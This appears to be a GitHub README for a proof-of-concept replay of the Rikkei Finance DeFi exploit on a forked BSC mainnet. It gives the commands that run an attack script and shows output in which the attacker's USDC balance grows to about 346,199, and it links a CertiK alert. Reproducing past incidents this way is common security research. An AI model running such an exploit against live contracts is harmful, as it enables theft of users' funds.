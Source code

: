 # Rikkei Finance re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/bsc/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
USDC balance of attacker: 0.0
Exploiting...
Exploit complete.
USDC balance of attacker: 346199.780826500224370302
```
This means the attack is complete
> The block height of the fork is 16956474


## Link
* https://twitter.com/CertiKAlert/status/1514831117169405953